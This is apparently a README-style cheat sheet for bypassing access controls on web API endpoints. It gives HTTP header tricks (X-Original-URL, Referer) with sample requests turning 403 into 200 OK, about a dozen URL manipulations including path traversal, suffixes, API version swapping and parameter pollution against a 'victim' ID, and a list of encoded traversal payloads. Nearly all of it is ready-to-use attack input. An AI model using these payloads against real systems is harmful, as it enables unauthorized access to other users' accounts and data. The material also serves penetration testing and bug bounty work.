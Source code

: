 <h3>If you want do bypass endpoint always try to use own methodology.</h3>

<b>Example</b>:

Http Header based bypass:

<b>1.</b> X-Original-URL: /redact

<b>Example:</b><br/>
 
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

<b>2.</b> Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

<b>3</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>.json</b> → bypass ok <br/>

<b>4</b>. https://site.com/api/v1/redactid → acess denied <br/>
https://site.com/api/v1/users/redactid<b>:</b> → bypass ok <br/>

<b>5</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>..;/</b> → bypass ok <br/>

<b>6</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>\..\.\getUser</b> → bypass ok <br/>

<b>7</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>/</b> → bypass ok <br/>

<b>8</b>. https://site.com/api/v1/users/redactid → acess denied <br/>
https://site.com/api/v1/users/redactid<b>??</b> → bypass ok <br/>

<b>9</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/<b>v2</b>/users/redactid → bypass ok <br/>
            or
https://site.com/api/<b>v3</b>/users/redactid → bypass ok <br/>

<b>10</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>&accountdetails</b> → bypass ok <br/>

<b>11</b>. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied <br/>
https://site.com/api/v1/users/<b>your?id=UAEILsdUf50&</b>victim?id=BAEILsaqQhk → bypass ok <br/>

<b>12</b>. https://site.com/api/v1/users/redactid → access denied <br/>
https://site.com/api/v1/users/redactid<b>/email</b> → bypass ok <br/>

Payload for basic test:
<ul>
 <b>
? <br/>
?? <br/>
& <br/>
'#' <br/>
% <br/>
%20 <br/>
%09 <br/>
/ <br/>
/..;/ <br/>
../ <br/>
..$2f <br/>
..;/ <br/>
../ <br/>
\..\.\ <br/>
.././ <br/>
..%00/ <br/>
.%0d/ <br/>
..%5c <br/>
..\ <br/>
..%ff/ <br/>
%2e%2e%2f <br/>
.%2e/ <br/>
%3f <br/>
%26 <br/>
%23 <br/>
.json <br/>
 </b>
</ul>
HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



